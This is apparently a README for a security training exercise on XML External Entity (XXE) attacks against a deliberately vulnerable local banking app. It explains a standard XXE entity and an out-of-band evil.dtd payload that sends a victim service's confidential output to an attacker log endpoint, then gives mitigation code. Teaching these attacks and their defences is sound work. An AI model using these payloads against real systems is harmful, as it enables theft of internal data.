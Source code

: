 # Exercise 5 - XML External Entities (XXE) 
Exercise to help you understand XEE exploits and their mitigations

## Setup and Start Applications
1. check out exercise2 
   * choose branch 'exercise2' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
1. start the attacker-app
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
   
## Brief description of the exercise
The applications in this scenario are:
* the v-bank application at http://vbank.127.0.0.1.xip.io:8080 
* the attacker application at http://attack.127.0.0.1.xip.io:9090/xxe, this holds the (malicaiout) XML payloads and DTDs
  * For the standard XXE scenario:
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_standard.xml 
  * For the out-of-band XXE scenario
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_out-of-band.xml
    * And the DTD: http://attack.127.0.0.1.xip.io:9090/xml/evil.dtd
* The victim service at: http://service.127.0.0.1.xip.io:9090/victim  
    * This service should normally not be available to the client calling the v-bank application. 
    * The response of this service is the confidential data the attacker steals or leaks by exploiting the XXE vulnerability.
    With the help of the XXE exploit the attacker manages to call the service and
      * Standard XXE: Place the victim's output in the processed document and put in the note of resulting transaction.
      * Out-of-band XXE: Send the victim's output to the logger service at http://attack.127.0.0.1.xip.io:9090/log (you can see what has been logged at http://attack.127.0.0.1.xip.io:9090/viewlog)
\
But first you have to find the XXE vulnerability in the v-bank-app.

## Look for XXE vulnerabilities

### Hint 
XXE vulnerabilities are to be found where XML parsing/processing takes place.

### Present vulnerability 
_BankController.uploadTransactions(...)_ where the processing of the uploaded XML from the home page takes place.

## Exploit to understand

For the exploit we will use the XML files downloadable from http://attack.127.0.0.1.xip.io:9090/xxe 
Please download the beolow files to a folder on your local drive:
* transactions.xml: The normal payload creating 2 transactions;
* xxe_call_service.xml: the XXE payload calling the victim service and parsing its response/output into the note field of the transaction;
* xxe_call_service_out-of-band.xml: XXE payload also calling the victim service whose response/output it sends to the attacker's log service.  

1. Test
   * Login as bob (bob / h3ll0bob) and upload transactions.xml. 
   * You should see 2 transactions in the transaction history page.

1. Standard XXE
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a standard XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the output of the _victim_ _service_ as its value. When processing the XML the _&victim_ entity reference actually behaves as a constant initialized with the output or response of the system resource at _http://service.127.0.0.1.xip.io:9090/victim_. 
     * Then because of the ```<note>&victim;</note>``` the XML parser places it into the the note field. When the XML processor finally creates the object of class _Transaction_ its _note_ property will be set accordingly.
    
1. Out-of-Band XXE    
   * Logged in as bob, please upload xxe_out-of-band.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a Out-of-Band XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * Then in the_evil.dtd used the %victim; parameter entity (parameter entities are denoted by % and can be reused within the DTD) to create another %send; entity which when evaluated will send the value of %victim; to the log service at http://attack.127.0.0.1.xip.io:9090/log 
     ```<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://attack.127.0.0.1.xip.io:9090/log?msg=%victim;'>">
            %all;
     ```
     * Because the output of the attacked service (normally confidential information) is send to the log service and is not received with the response it is called Out-of-Band XXE. 
       (It is also called Blind XXE) 
       
 1. Tasks 
    * (1) Configure the XML parser to omit external DTD resources; so that it cannot load the evil.dtd 
    * (2) Add a lexical parser to preprocess the XML and fail if any entities are found
    * Hints:
      * (1) in _BankController.uploadTransactions(...)_:
       ```
       unmarshaller.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "false");
       ```
      * (2) create a new class: 
       ```
       public class AntiEntityScanner {
       
           private static final String LEXICAL_HANDLER = "http://xml.org/sax/properties/lexical-handler";
       
           public static void check(final InputStream data) throws Exception {
               final SAXParser saxParser = SAXParserFactory.newInstance().newSAXParser();
               final ElementHandler handler = new ElementHandler();
               saxParser.getXMLReader().setProperty(LEXICAL_HANDLER, handler);
               saxParser.parse(data, handler);
           }
       
           public static final class ElementHandler extends org.xml.sax.ext.DefaultHandler2 {
               @Override
               public void startEntity(final String name) throws SAXException {
                   throw new IllegalArgumentException("Entities are illegal");
               }
           }
       }
       ```
     * (2) and in _BankController.uploadTransactions(...)_:
       ```
       InputStream incomingXML = file.getInputStream();
       //scan for entities in incoming XML without parsing the content
       AntiEntityScanner.check(incomingXML);
       ```
The solution is avaliable in the exercise5-solution branch at https://github.com/vargadan/v-bank/tree/exercise5-solution
You may find more on XXE mitifations at https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md

